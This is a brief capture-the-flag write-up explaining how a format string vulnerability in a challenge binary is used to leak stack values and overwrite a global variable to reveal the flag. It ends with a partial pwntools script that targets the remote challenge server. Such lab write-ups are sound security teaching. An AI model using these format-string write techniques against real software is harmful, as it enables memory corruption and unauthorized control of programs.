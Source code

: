 ### Summary
Format string vulnerability and chosen address is overwritten

### Solve
This is the source code of the decompiled binary using IDA free:

![Lost-main-func](assets/images/image3.png)

In short, the `main` function gets input from the user, it uses `printf` function without format specifiers to print it and makes a check against a condition to print the flag.

We can easily leak addresses from the stack, thanks to the format vulnerability. 
Trying this out, we can see that our input ‘AAAAAA’ (0x41414141) is stored in the 12th parameter of the printf. 

![Lost-find-offset](assets/images/image12.png)

By knowing this offset, we can also use the format string vulnerability to write at any address the value we want. Also it helps that the binary is compiled as PIC (position independent code).

Variable `dword_40408c` is found at 0x40408c and we need to overwrite it to check the condition. 
I wrote a script to automate this process and used a pwntools library to exploit the format vulnerability. 

```python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'amd64')

def send_payload(payload):
    	s = remote('vmx.cs.pub.ro',31500)
    	s.sendline(payload)
    	r = s.recvline()
    	return r

myoffset = FmtStr(execute_fmt=send_payload).offset
print(myoffset)
writes = {0x40408C: 0x1025544}
```